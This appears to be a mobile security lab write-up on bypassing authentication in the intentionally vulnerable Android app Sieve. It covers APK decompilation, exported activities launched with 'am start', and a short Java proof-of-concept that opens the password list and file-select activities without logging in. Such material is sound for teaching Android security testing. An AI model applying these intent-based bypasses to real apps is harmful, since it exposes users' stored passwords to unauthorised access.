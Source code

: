 # Authentication Bypass (Exported Activity Hacking )

1. **Retrieve the APK File**: Obtain the target APK file that you want to analyze.&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

1.  **Install APK on the Android Emulator**

    &#x20;

    <figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
2.  **Decompile APK using Apktool**

    <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
3.  **Decode APK Contents**

    <figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
4.  **Analyze** `AndroidManifest.xml`: Investigate the `AndroidManifest.xml` file to identify declared activities and their associated permissions, Notice that there is exported Activities.

    <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
5.  **Exploration of Application Features**: Launch the application on the emulator to interact with its functionalities, Notice it is simple password manageer.

    <figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
6.  **Identify Authentication Requirements**: Note any authentication mechanisms required by the application, such as password length or two-factor authentication (2FA) PIN.

    <figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
7.  **Access Password List Activity**: Discover the Password List Activity mentioned in the `AndroidManifest` file, where passwords and account details are managed&#x20;

    <figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
8.  **Attempt to Access Exported Activities**: Use the Activity Manager (am start -n ) to try accessing exported activities from outside the application

    <figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
9. **Investigate Potential Data Storage Locations**: Start file list activity and searching for any data leakage, but found nothing + i couldn't access other activities from there.
10. **Access Password List Activity**: Successfully access the Password List Activity from outside the application

    <figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>
11. **Encounter Error Messages**: Encounter error messages when attempting to view or modify passwords due to a required service not being started.&#x20;

    <figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
12. **Examine Settings and Backup Options**: Investigate settings options within the application to create backups of passwords
13. **Discover Backup File Accessibility**: Find that backup files can be accessed via another exported activity, `com.mwr.example.sieve/.FileSelectActivity`


14. **Identify Security Vulnerability**: Realize that plaintext passwords are accessible without authentication, potentially exposing users to password theft through malicious apps.

    <figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
15. Example code for Exploit POC

```java
import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Button to start FileSelectActivity
        Button fileSelectButton = findViewById(R.id.file_select_button);
        fileSelectButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the FileSelectActivity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.FileSelectActivity");
                startActivity(intent);
            }
        });

        // Button to start PWList Activity
        Button pwListButton = findViewById(R.id.pw_list_button);
        pwListButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the PWList Activity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
                startActivity(intent);
            }
        });
    }
}
```
